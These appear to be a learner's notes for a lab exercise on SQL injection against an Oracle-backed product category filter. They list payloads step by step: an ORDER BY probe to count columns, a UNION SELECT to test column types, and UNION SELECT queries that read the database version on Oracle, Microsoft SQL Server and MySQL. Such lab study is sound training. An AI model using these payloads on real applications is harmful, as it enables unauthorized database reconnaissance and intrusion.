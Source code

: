 lab 07 - SQL injection attack, querying the database type and version on ORacle 

SQL Injection - Product category filter

End Goal - display the database version string

Analysis:

(1) Determin no of colounms 
' order by 3-- -> internal server error

3-1 = 2

(2) Determine the data types of the columns 

' UNION SELECT 'a', 'a' from DUAL--

(3) output the database version

' UNION SELECT banner, NULL from v$version-- 

// for  MySQL and Microsoft

Microsoft	--: SELECT @@version
' UNION SELECT @@version, NULL# 


MySQL	--:     SELECT @@version

